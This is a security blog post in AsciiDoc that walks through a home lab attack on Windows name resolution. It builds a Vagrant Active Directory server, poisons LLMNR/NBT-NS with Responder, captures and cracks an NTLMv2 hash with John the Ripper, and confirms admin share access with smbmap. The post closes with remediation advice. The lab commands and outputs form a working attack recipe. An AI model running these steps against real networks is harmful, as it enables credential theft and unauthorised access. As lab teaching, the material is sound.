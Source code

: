 :slug: respond-the-name/
:date: 2020-03-31
:category: attacks
:subtitle: Attacking a network using Responder
:tags: security, windows, vulnerability, credential
:image: cover.png
:alt: Red wooden mailbox near green leaf plan. Photo by Bundo Kim on Unsplash: https://unsplash.com/photos/S-TcfjrYVKo
:description: Windows hosts use LLMNR and NBT-NS to perform name resolution on the local network. This protocols does not verifies addresses in the network so an attacker could poison this requests in order to capture credentials. This blog post will detail how we can exploit this and obtain user hashes.
:keywords: Windows, Security, Vulnerability, Hacking, Network, Cracking.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/qlHRuDvaxL8

= Respond the name

`Link Local Multicast Name Resolution` (`LLMNR`)
and `NetBIOS Name Service` (`NBT-NS`)
are two name resolution protocols that helps `Windows` hosts
to find address names from other devices on the network.
These are `Windows` components
and are alternate methods of host identification.
`LLMNR` is based upon the `Domain Name System` (`DNS`),
it uses a simple exchange of request and reply messages
to resolve computer names on `IPV6` or `IPV4` addresses.

`NBT-NS` uses `NetBIOS` to resolve `IPV4` addresses
by broadcasting a `NetBIOS Name Query Request` message
to the local subnet broadcast address using the port `UDP 137`.
The node that owns the queried name
then sends back a unicast message to the requestor.
If `NBT-NS` is disabled then it will need to use `DNS` queries to resolve names,
and if the network does not have `DNS` servers
then the names should be in the `Hosts` file of the machine.

`LLMNR` messages uses a similar format as `DNS` messages
but it uses `UDP port 5355`.
It works by sending a `LLMNR Name Query Request` message
to the multicast address,
this multicast address is scoped to prevent a multicast enabler router
from forwarding the request outside the requestor subnet.
If a host on the subnet is authoritative for the request name
it sends a unicast response to the requestor.

As both protocols uses broadcast messages to resolve names on the network,
an attacker can listen to them
and then responding with a spoof of an authoritative source
for name resolution as if he knows the name requested.
Then with the service poisoned
the victim will continue the communication with the attacker,
and if the network resource needs authentication
the victim will send an username and a `NTLMv2` hash.
Here the attacker can use tools like `JohnTheRipper`
to crack the credentials and have access to the system.
This attack is called `LLMNR/NBT-NS Poisoning and Relay`.

== Responder lab

To set up our lab we are going to use `Hashicorp's` link:https://www.vagrantup.com/[Vagrant];
the source files are below.
Create a folder with the name `requestor`
and save the `Vagrantfile` there.
Also create another folder inside `requestor` named `provision`
and save the file `ad.ps1` there.

.setting up the lab
[source, bash, linenums]
----
$ mkdir requestor
$ cd requestor
requestor$ nano Vagrantfile #Add here the content
requestor$ mkdir provision
requestor$ nano provision/ad.ps1 #Add here the content
----

.Vagrantfile
[source, ruby]
----
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|

  config.vm.box = "cdaf/WindowsServerDC"
  config.vm.hostname = "winserver"
  config.vm.network "private_network", ip: "192.168.56.2"
  config.vm.provision "shell", path: "provision/ad.ps1"

end
----

.provision/ad.ps1
[source, powershell]
----
Import-Module ServerManager
Add-WindowsFeature RSAT-AD-PowerShell
import-module activedirectory
New-ADuser -Name "reqtest" -SamAccountName reqtest -Enabled $true -AccountPassword (ConvertTo-SecureString -AsPlainText "SuperSecure@123!!!" -Force)
New-ADuser -Name "svctest" -SamAccountName svctest -Enabled $true -AccountPassword (ConvertTo-SecureString -AsPlainText "Monkey.123" -Force)
setspn -A sky.net/reqtest reqtest
setspn -A sky.net/svctest svctest
Add-ADGroupMember -Identity "Administrators" -Members svctest
Add-ADGroupMember -Identity "Users" -Members reqtest
----

Then run the environment using:

.vagrant up
[source, bash]
----
requestor$ vagrant up
----

This will create a `Windows` machine
with `Active Directory` installed and configured.
At this point, everything we need has been completed
and is ready for us to launch an attack.

Now we can set up our attacking machine.
Here we are using link:https://www.kali.org/[Kali Linux] with `Vagrant` too,
but you can use whatever `OS` you prefer.

These are the tools that we are going to use:

* link:https://github.com/ShawnDEvans/smbmap[smbmap]
* link:https://github.com/SpiderLabs/Responder[Responder]
* link:https://github.com/danielmiessler/SecLists[SecLists]
* link:https://github.com/magnumripper/JohnTheRipper[JohnTheRipper]

If you are using `Kali` the only thing that needs to be cloned is `Responder`.

.cloning Responder
[source, bash]
----
$ git clone https://github.com/SpiderLabs/Responder
----

We are ready to go.

== Starting the poisoner

The only thing that e need to do
is running `Responder` as root.
We can do that with the following:

.running responder
[source, bash, linenums]
----
Responder$ sudo ./Responder.py -I eth1 -wrf
----

.responder
[source, bash]
----

NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eth1]
Responder IP               [192.168.56.103]
Challenge set              [1122334455667788]



[+] Listening for events...
----

Since we are on the same network
it is only matter of time to get a request
from a machine in the subnet.
But because our `Windows` machine is doing nothing
we will receive nothing.

== Capturing credentials

Now lets act like a normal user
in our `Windows` machine.
Log in as `svctest` with the domain `sky.net` and password `Monkey.123`,
then open the start menu and there type `run`.
In there we are going to look for a name in the network,
just type the following:

.searching names
[source, bash]
----
\\FLUIDATTACKS
----

There we will get an error accessing the share,
but in our attacker machine we will get the following:

.responder output
[source, bash]
----
[*] [LLMNR]  Poisoned answer sent to 192.168.56.2 for name FLUIDATTACKS
[FINGER] OS Version     : Windows Server 2016 Standard Evaluation 14393
[FINGER] Client Version : Windows Server 2016 Standard Evaluation 6.3
[SMB] NTLMv2-SSP Client   : 192.168.56.2
[SMB] NTLMv2-SSP Username : SKY\svctest
[SMB] NTLMv2-SSP Hash     : svctest::SKY:1122334455667788:D78BEB50968B6AEA3D8A9CD04765BB6A:01010000000000008274E5E0A507D60176E66DEAF12162F90000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000000000000030000037AE67261C1D6D0CEBBD9D3AA1803818C033512B8B0FD6DEBA539CFD272D615B0A001000000000000000000000000000000000000900220063006900660073002F0046004C00550049004400410054005400410043004B0053000000000000000000
[SMB] Requested Share     : \\FLUIDATTACKS\IPC$
[*] [LLMNR]  Poisoned answer sent to 192.168.56.2 for name FLUIDATTACKS
[FINGER] OS Version     : Windows Server 2016 Standard Evaluation 14393
[FINGER] Client Version : Windows Server 2016 Standard Evaluation 6.3
[*] Skipping previously captured hash for SKY\svctest
[SMB] Requested Share     : \\FLUIDATTACKS\IPC$

----

.respoder result
image::vulnerability.png[Responder result]

Here we have our hash, they are `NTLMv2 hashes`,
and there we can also view some information about the server
like the OS version and the requested share.
With this, we save that user's hash on a file.

.save hash
[source, bash]
----
echo 'svctest::SKY:1122334455667788:D78BEB50968B6AEA3D8A9CD04765BB6A:01010000000000008274E5E0A507D60176E66DEAF12162F90000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000000000000030000037AE67261C1D6D0CEBBD9D3AA1803818C033512B8B0FD6DEBA539CFD272D615B0A001000000000000000000000000000000000000900220063006900660073002F0046004C00550049004400410054005400410043004B0053000000000000000000' > hashllmnr
----

And then we crack it using `john`,
a `SecLists` dictionary, and `KoreLogic` ruleset.
Since `NTLMv2` hashes are harder to crack it could take a while
depending on your system.

.john cracking
[source, bash]
----
$ john --wordlist=/usr/share/seclists/Passwords/darkweb2017-top100.txt --rules=KoreLogic hashllmnr
----

.john output
[source, bash]
----
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Monkey.123       (svctest)
1g 0:00:00:18 DONE (2020-03-31 17:55) 0.05518g/s 575858p/s 575858c/s 575858C/s Asdfgh.jkl13..Asdfgh.jkl24
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
----

And it's cracked! Now we can check our access
running `smbmap` again with our new set of credentials.

.samba high privileges
[source, bash]
----
$ smbmap -u svctest -p 'Monkey.123' -d sky.net -H 192.168.56.2
----

.admin smbmap
[source, bash]
----
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.168.56.2...
[+] IP: 192.168.56.2:445        Name: 192.168.56.2
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE
        IPC$                                                    READ ONLY
        NETLOGON                                                READ, WRITE
        SYSVOL                                                  READ, WRITE
        [!] Unable to remove test directory at \\192.168.56.2\SYSVOL\edWFuwvkCb, plreae remove manually
----

As you can see, we now have administrative access on our server.
You can access it by `RDP` or retrieve files using `SMB`.
Also, you can dump the `SAM` to get more users and hashes,
these last ones are `NTLMv1` and easily cracked.

This could be done using the `reqtest` account or the `vagrant` account,
if an attacker do this in an enterprise network
he can capture any number of accounts of the network.
Also there are windows scripts like link:https://github.com/Kevin-Robertson/Inveigh[Inveigh]
were we can do more or less the same attack
with the same results.

=== Solution

The remediation of this attack
is to disable both `LLMNR` and `NBT-NS` on all hosts
because `Windows` defaults to use the other
when the other fails or is disabled.
Also a host based security software
that blocks `LLMNR/NBT-NS` requests could be used.

Another way to mitigate this
is by having and using a strong credential policy.
Passwords must be longer than 20 characters,
contain upper and lower case letters, contain symbols and digits
and must not be easy to guess. This means you would be wise
to adopt passphrases instead of simple passwords.

This is especially useful when you are dealing with service credentials
because they are the ones most targeted.
You can also set an alert to notify you when someone is logged in
with your most critical and high-privileged users.

If you want more information about strong credentials,
you can check our [inner]#link:../../rules/#credentials[rules]#
about them.
